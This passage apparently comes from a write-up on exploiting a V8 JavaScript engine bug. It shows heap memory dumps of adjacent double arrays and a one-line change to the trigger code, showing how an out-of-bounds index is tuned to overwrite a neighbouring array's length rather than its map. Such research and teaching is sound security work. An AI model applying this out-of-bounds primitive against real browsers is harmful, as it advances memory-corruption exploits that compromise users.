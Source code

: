 That gives the following results : 

```text
oob index is 4
length is 3
leaked 0x0000000300000000
----- [ FIXED_DOUBLE_ARRAY_TYPE : 0x28 ] -----
0x00002e5fddf8b6a8    0x00002af7fe681451    MAP_TYPE    
0x00002e5fddf8b6b0    0x0000000300000000    
0x00002e5fddf8b6b8    0x3ff199999999999a    arr[0]
0x00002e5fddf8b6c0    0x3ff3333333333333    arr[1]
0x00002e5fddf8b6c8    0x3ff4cccccccccccd    arr[2]
----- [ FIXED_DOUBLE_ARRAY_TYPE : 0x28 ] -----
0x00002e5fddf8b6d0    0x00002af7fe681451    MAP_TYPE // also arr[3]
0x00002e5fddf8b6d8    0x0000000300000000    arr[4] with OOB index!
0x00002e5fddf8b6e0    0x40450ccccccccccd    arr2[0] == 42.1
0x00002e5fddf8b6e8    0x4045000000000000    arr2[1] == 42.0
0x00002e5fddf8b6f0    0x4045000000000000    
----- [ JS_ARRAY_TYPE : 0x20 ] -----
0x00002e5fddf8b6f8    0x0000290fb3502cf1    MAP_TYPE    arr2 JSArray
0x00002e5fddf8b700    0x00002af7fe680c19    FIXED_ARRAY_TYPE [as]   
0x00002e5fddf8b708    0x00002e5fddf8b6d1    FIXED_DOUBLE_ARRAY_TYPE   
```

Obviously, both `FixedDoubleArray` of `arr` and `arr2` are contiguous. 
At `arr[3]` we've got `arr2`'s map and at `arr[4]`  we've got `arr2`'s elements length (encoded as an Smi, which is [32 bits even on 64 bit platforms](https://github.com/v8/v8/blob/a9e3d9c7ec1345085c861af76e508d9591634530/include/v8.h#L225)).
Please note that we changed a little bit the trigger code : 

```diff
< let arr = new Array(1.1,1.2,1.3,1.4);
---
> let arr = new Array(1.1,1.2,1.3);
```

Otherwise we would read/write the `map` instead, as demonstrates the following dump : 

```text
oob index is 4
length is 4
leaked 0x0000057520401451
----- [ FIXED_DOUBLE_ARRAY_TYPE : 0x30 ] -----
0x0000108bcf50b6c0    0x0000057520401451    MAP_TYPE    
0x0000108bcf50b6c8    0x0000000400000000    
0x0000108bcf50b6d0    0x3ff199999999999a    arr[0] == 1.1
0x0000108bcf50b6d8    0x3ff3333333333333    arr[1]
0x0000108bcf50b6e0    0x3ff4cccccccccccd    arr[2]
0x0000108bcf50b6e8    0x3ff6666666666666    arr[3] == 1.3
----- [ FIXED_DOUBLE_ARRAY_TYPE : 0x28 ] -----
0x0000108bcf50b6f0    0x0000057520401451    MAP_TYPE    arr[4] with OOB index!
0x0000108bcf50b6f8    0x0000000300000000    
0x0000108bcf50b700    0x40450ccccccccccd    
0x0000108bcf50b708    0x4045000000000000    
0x0000108bcf50b710    0x4045000000000000    
----- [ JS_ARRAY_TYPE : 0x20 ] -----
0x0000108bcf50b718    0x00001dd08d482cf1    MAP_TYPE    
0x0000108bcf50b720    0x0000057520400c19    FIXED_ARRAY_TYPE   
```

